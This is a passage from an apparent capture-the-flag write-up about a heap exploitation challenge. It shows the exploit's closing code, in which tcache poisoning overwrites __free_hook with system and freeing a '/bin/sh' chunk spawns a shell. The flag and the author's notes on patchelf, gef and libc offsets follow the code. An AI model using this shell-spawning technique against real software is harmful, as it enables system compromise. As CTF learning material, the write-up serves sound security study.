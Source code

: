 ```python
malloc("right", 3, b'\xff'*6);          # place pointer to __free_hook at head of tcache bin
                                        # overwrite __free_hook with system
malloc("right", 3, p64(base+system).replace(b'\x00', b''));
malloc("right", 1, b"/bin/sh");         # create chunk with "/bin/sh"
free("right", 1);                       # free("/bin/sh") -> system("/bin/sh")

io.interactive();                       # shell!
```

## Flag: flag{y0u_h4v3_4_f33l1n6_175_601n6_70_b3_4_l0n6_d4y_4c699247}
Yes, yes I do.

This challenge was really fun and actually my first successful heap chall, I learned about a tool called `patchelf` which you can use to set the libc of a binary to the version to want, given you have the actual libc. Also `gef` which is a gdb extension that adds many different useful commands that makes the process much easier. The part that actually caused me the most grief was figuring out the goddamn libc version and acquiring the correct offsets.